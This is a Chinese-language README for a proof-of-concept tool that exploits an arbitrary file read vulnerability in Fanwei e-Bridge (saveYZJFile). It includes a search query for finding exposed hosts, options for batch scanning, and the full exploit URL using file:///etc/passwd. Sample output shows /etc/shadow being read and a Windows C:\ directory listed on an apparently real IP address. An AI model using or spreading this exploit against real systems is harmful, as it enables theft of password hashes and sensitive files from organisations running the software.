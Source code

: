 # fanweiOA-saveYZJFile任意文件读取漏洞

# 漏洞描述
泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

# 影响版本
泛微云桥 e-Bridge 2018-2019 多个版本

# 网络测绘
title="泛微云桥e-Bridge"

# 使用方法
optional arguments:
  -h, --help                    show this help message and exit
  -i IP, --ip IP                单个ip地址
  -l LIST, --list LIST          ip列表 - 批量扫描
  -t TARGET, --target TARGET    访问的目录或文件 - 完整路径
  
# 例子
```shell
python poc.py -i xx.xx.xx.xx

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: linux http://xx.xx.xx.xx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
[+] http://xx.xx.xx.xx maybe vulnerable
```

Linux系统
```shell
python poc.py -i xx.xx.xx.xx -t etc/shadow

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: linux http://xx.xx.xx.xx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
[+] http://xx.xx.xx.xx maybe vulnerable

------------results------------
root:*:19001:0:99999:7:::
bin:*:15980:0:99999:7:::
daemon:*:15980:0:99999:7:::
adm:*:15980:0:99999:7:::
......
```

Windows系统
```shell
python poc.py -i http://xx.xx.xx.xx:8088 -t C:\

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: windows http://47.111.163.90:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt
[+] http://47.111.163.90:8088 maybe vulnerable

------------results------------
$Recycle.Bin
360SANDBOX
Boot
bootmgr
Config.Msi
Documents and Settings
inetpub
pagefile.sys
PerfLogs
ProgramData
Program Files
Program Files (x86)
Recovery
System Volume Information
Users
```




